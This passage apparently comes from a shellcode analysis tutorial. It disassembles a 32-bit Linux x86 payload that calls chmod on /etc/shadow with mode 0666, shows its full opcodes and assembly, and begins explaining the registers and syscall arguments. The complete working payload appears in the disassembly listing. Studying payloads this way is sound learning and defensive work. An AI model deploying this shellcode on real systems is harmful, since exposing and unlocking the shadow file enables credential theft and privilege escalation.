 The command line arguments passed to `ndisasm` specify `x86` (32 bit) architecture and that the output should be formatted in the Intel format. The output of the above command in its entirety is shown below. Note that some assembly instructions are not accurate, specifically instructions following `CALL` instructions. The output will be broken down in to smaller sections later on.

```nasm
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
```

### Shellcode III: Analysis
```nasm
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
```

First, a `CDQ` instruction is used to zero out the `EDX` register in the same manner previously outlined in the `exec` payload. To reiterate, the CDQ instruction copies the sign bit in the `EAX` register to every bit position in the `EDX` register. Since the sign bit is not set in `EAX`, its value is `0`. This means that `0` will be copied to every bit position in the `EDX` register, thus zeroing out the register.

A single byte `0xf` (or `15` in decimal) is pushed to the stack and subsequently stored in the `EAX` register with a `POP` instruction. From the `unistd_32.h` file, `15` specifies the `chmod` system call, which makes sense for this particular payload.

```shell
#define __NR_chmod 15
```

From `man 2 chmod`, the `chmod` function expects two arguments, as shown below.

```shell
int chmod(const char *pathname, mode_t mode);
```

The first argument expected by `chmod` is a pointer to a pathname string which will specify the file to be modified and will be passed to `chmod` through the `EBX` register. The second argument expected by `chmod` is a mode value (an octal value, as commonly seen in command line usage of `chmod`) and is passed to `chmod` through the `ECX` register.

